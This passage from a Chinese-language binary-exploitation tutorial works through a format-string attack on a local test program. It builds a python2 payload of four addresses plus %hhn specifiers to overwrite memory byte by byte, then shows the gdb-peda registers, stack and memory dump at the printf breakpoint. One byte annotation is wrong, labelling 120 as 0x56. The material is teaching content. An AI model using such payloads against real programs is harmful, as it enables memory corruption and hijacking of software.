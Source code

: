 由于我们想要逐字节覆盖，就需要 4 个用于跳转的地址，4 个写入地址和 4 个值，对应关系如下（小端序）：

```text
0xffffd564 -> 0x41414141 (0xffffd538) -> \x78
0xffffd568 -> 0x42424242 (0xffffd539) -> \x56
0xffffd56c -> 0x43434343 (0xffffd53a) -> \x34
0xffffd570 -> 0x44444444 (0xffffd53b) -> \x12
```

把 `AAAA`、`BBBB`、`CCCC`、`DDDD` 占据的地址分别替换成括号中的值，再适当使用填充字节使 8 字节对齐就可以了。构造输入如下：

```text
$ python2 -c 'print("\x38\xd5\xff\xff"+"\x39\xd5\xff\xff"+"\x3a\xd5\xff\xff"+"\x3b\xd5\xff\xff"+"%104c%13$hhn"+"%222c%14$hhn"+"%222c%15$hhn"+"%222c%16$hhn")' > text
```

其中前四个部分是 4 个写入地址，占 4*4=16 字节，后面四个部分分别用于写入十六进制数，由于使用了 `hh`，所以只会保留一个字节 `0x78`（16+104=120 -> 0x56）、`0x56`（120+222=342 -> 0x0156 -> 56）、`0x34`（342+222=564 -> 0x0234 -> 0x34）、`0x12`（564+222=786 -> 0x312 -> 0x12）。执行结果如下：

```text
$ gdb -q a.out
Reading symbols from a.out...(no debugging symbols found)...done.
gdb-peda$ b printf  
Breakpoint 1 at 0x8048350
gdb-peda$ r < text  
Starting program: /home/firmy/Desktop/RE4B/a.out < text
[----------------------------------registers-----------------------------------]
EAX: 0xffffd564 --> 0xffffd538 --> 0x88888888
EBX: 0x804a000 --> 0x8049f14 --> 0x1
ECX: 0x1
EDX: 0xf7f9883c --> 0x0
ESI: 0xf7f96e68 --> 0x1bad90
EDI: 0x0
EBP: 0xffffd5f8 --> 0x0
ESP: 0xffffd52c --> 0x8048520 (<main+138>:      add    esp,0x20)
EIP: 0xf7e27c20 (<printf>:      call   0xf7f06d17 <__x86.get_pc_thunk.ax>)
EFLAGS: 0x292 (carry parity ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0xf7e27c1b <fprintf+27>:     ret
   0xf7e27c1c:  xchg   ax,ax
   0xf7e27c1e:  xchg   ax,ax
=> 0xf7e27c20 <printf>: call   0xf7f06d17 <__x86.get_pc_thunk.ax>
   0xf7e27c25 <printf+5>:       add    eax,0x16f243
   0xf7e27c2a <printf+10>:      sub    esp,0xc
   0xf7e27c2d <printf+13>:      mov    eax,DWORD PTR [eax+0x124]
   0xf7e27c33 <printf+19>:      lea    edx,[esp+0x14]
No argument
[------------------------------------stack-------------------------------------]
0000| 0xffffd52c --> 0x8048520 (<main+138>:     add    esp,0x20)
0004| 0xffffd530 --> 0xffffd564 --> 0xffffd538 --> 0x88888888
0008| 0xffffd534 --> 0x1
0012| 0xffffd538 --> 0x88888888
0016| 0xffffd53c --> 0xffffffff
0020| 0xffffd540 --> 0xffffd55a ("ABCD")
0024| 0xffffd544 --> 0xffffd564 --> 0xffffd538 --> 0x88888888
0028| 0xffffd548 --> 0x80481fc --> 0x38 ('8')
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0xf7e27c20 in printf () from /usr/lib32/libc.so.6
gdb-peda$ x/20x $esp  
0xffffd52c:     0x08048520      0xffffd564      0x00000001      0x88888888
0xffffd53c:     0xffffffff      0xffffd55a      0xffffd564      0x080481fc
0xffffd54c:     0x080484b0      0xf7ffda54      0x00000001      0x424135d0
0xffffd55c:     0x00004443      0x00000000      0xffffd538      0xffffd539
0xffffd56c:     0xffffd53a      0xffffd53b      0x34303125      0x33312563
```